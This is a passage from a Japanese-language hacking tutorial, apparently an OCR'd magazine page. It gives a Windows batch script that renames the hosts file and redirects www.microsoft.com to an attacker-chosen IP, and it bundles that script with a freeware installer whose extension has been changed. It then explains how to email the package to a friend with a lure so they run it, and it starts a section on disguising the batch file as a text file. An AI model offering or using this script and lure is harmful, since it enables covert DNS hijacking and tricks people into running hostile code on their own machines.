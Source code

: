 　…と、いろんなネタが考えられるわけですが、自分のPCで見せるならともかく、
相手が遠くにいる場合、hostsファイルを直接いじるわけにもいかないでしょう。
そこで、hostsファイルを書き換えるツールを作ってみます。といっても、実行フ
ァイルを作るのは面倒なので、簡単にテキストエディタでバッチファイルを作成
します。
　バッチファイルをクリックさせるために、面白いフリーウェアかなにか用意し
ておきましょう。このソフトのインストーラの拡張子を、次のように書き換えて
おきます。

setup.exe→setup._

　それから、次の命令をテキストエディタに張りつけて、install.batなどの名前
で保存します。

```
if exist %windir%\system32\drivers\etc\hosts.bkup goto end
 ren %windir%\system32\drivers\etc\hosts hosts.bkup
 echo 210.171.226.47 www.microsoft.com>> %windir%\system32\drivers\etc\hosts
:end
setup._
```

```
if exist %windir%\hosts.bkup goto end
 ren %windir%\hosts hosts.bkup
 echo 210.171.226.47 www.microsoft.com>> %windir%\hosts
:end
setup._
```

　このバッチファイルの中身を簡単に説明すると、以下のようになっています。

1行目：既にバックアップファイルがあれば、処理を実行しない。
2行目：今あるhostsファイルをhosts.bkupにリネームする。
3行目：hostsファイルに設定を書き込む（好きな組み合わせに変えてください）。
4行目：ラベル。
5行目：本物のsetupファイルを実行する。

　実行ファイルは拡張子が違っても実行されてしまう……というのがミソです。
　これをソフトと一緒に圧縮して、メールに添付。本文には、「面白いフリーウ
ェア見つけたよ。install.batをクリックしてね」などと書いておけばよろしい。
友人がソフトをインストールしたのを確認後、メールで、「このサイト見てみて
！」と大手サイトのURLを張りつけて送れば、びっくりすること間違いなしです。
誘導したいサイトのIPアドレスが、自分のサイトでない場合は、コマンドプロン
プトの画面から以下のようにPINGを打って調べてもいいし、

```
ping ドメイン名
```

　PINGが禁止されているサイトなら、WEBサイトの変換サービスを利用しても構い
ません。"lookup"というキーワードで検索すれば、たくさん引っかかるはずです。


### 0x04 ファイルを偽装してみよう

　これだけでもよいのですが、用心深い友達だと、実行前にバッチファイルの中
身を確かめるかもしれません。バッチファイルは、テキストエディタで開けば、
簡単に中身が見えてしまいます。
　そこで、バッチファイルをテキストファイルに偽装する方法をご紹介します。
